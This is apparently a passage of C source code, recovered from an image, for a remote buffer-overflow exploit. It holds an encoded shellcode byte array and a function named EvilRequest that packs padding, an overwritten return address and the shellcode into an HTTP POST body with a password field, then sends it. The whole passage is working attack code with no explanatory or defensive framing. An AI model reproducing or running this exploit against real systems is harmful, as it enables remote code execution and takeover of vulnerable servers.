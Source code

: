 ```hlt:55,31,33,69,72-97
   "\x8f\x13\xc9\xed\x06\xf6\xf8\x2d\x7c\x73\xaa\x9d\xf6\xd1\x47"
   "\x55\x5a\xc1\xdc\x1b\x73\xe6\x55\x91\xa5\xc9\x66\x8a\x96\x48"
   "\xe5\xd1\xca\xaa\xd4\x19\x1f\xab\x11\x47\xd2\xf9\xca\x03\x41"
   "\xed\x7f\x59\x5a\x86\xcc\x4f\xda\x7b\x84\x6e\xcb\x2a\x9e\x28"
   "\xcb\xcd\x73\x41\x42\xd5\x90\x6c\x1c\x6e\x62\x1a\x9f\xa6\xba"
   "\xe3\x0c\x87\x72\x16\x4c\xc0\xb5\xc9\x3b\x38\xc6\x74\x3c\xff"
   "\xb4\xa2\xc9\x1b\x1e\x20\x69\xc7\x9e\xe5\xec\x8c\xad\x42\x7a"
   "\xca\xb1\x55\xaf\x61\xcd\xde\x4e\xa5\x47\xa4\x74\x61\x03\x7e"
   "\x14\x30\xe9\xd1\x29\x22\x52\x8d\x8f\x29\x7f\xda\xbd\x70\xe8"
   "\x2f\x8c\x8a\xe8\x27\x87\xf9\xda\xe8\x33\x95\x56\x60\x9a\x62"
   "\x98\x5b\x5a\xfc\x67\x64\x9b\xd5\xa3\x30\xcb\x4d\x05\x39\x80"
   "\x8d\xaa\xec\x07\xdd\x04\x5f\xe8\x8d\xe4\x0f\x80\xc7\xea\x70"
   "\xb0\xe8\x20\x19\x5b\x13\xa3\xe6\x34\x29\x37\x8f\x46\x4d\x36"
   "\xf4\xce\xab\x52\x1a\x87\x64\xcb\x83\x82\xfe\x6a\x4b\x19\x7b"
   "\xac\xc7\xae\x7c\x63\x20\xda\x6e\x14\xc0\x91\xcc\xb3\xdf\x0f"
   "\x78\x5f\x4d\xd4\x78\x16\x6e\x43\x2f\x7f\x40\x9a\xa5\x6d\xfb"
   "\x34\xdb\x6f\x9d\x7f\x5f\xb4\x5e\x81\x5e\x39\xda\xa5\x70\x87"
   "\xe3\xe1\x24\x57\xb2\xbf\x92\x11\x6c\x0e\x4c\xc8\xc3\xd8\x18"
   "\x8d\x2f\xdb\x5e\x92\x65\xad\xbe\x23\xd0\xe8\xc1\x8c\xb4\xfc"
   "\xba\xf0\x24\x02\x11\xb1\x45\xe1\xb3\xcc\xed\xbc\x56\x6d\x70"
   "\x3f\x8d\xb2\x8d\xbc\x27\x4b\x6a\xdc\x42\x4e\x36\x5a\xbf\x22"
   "\x27\x0f\xbf\x91\x48\x1a";

    char request_three[] = "&password=A";

    int content_length = 9 + strlen(padding) + strlen(retn) + strlen(shellcode) + strlen(request_three);
    char *content_length_string = malloc(15);
    sprintf(content_length_string, "%d", content_length);
    int buffer_length = strlen(request_one) + strlen(content_length_string) + initial_buffer_size + strlen(retn) + strlen(request_two) + strlen(shellcode) + strlen(request_three);

    char *buffer = malloc(buffer_length);
    memset(buffer, 0x00, buffer_length);
    strcpy(buffer, request_one);
    strcat(buffer, content_length_string);
    strcat(buffer, request_two);
    strcat(buffer, padding);
    strcat(buffer, retn);
    strcat(buffer, shellcode);
    strcat(buffer, request_three);

    SendRequest(buffer, strlen(buffer));
}

int main() {

    EvilRequest();
    return 0;
}
```
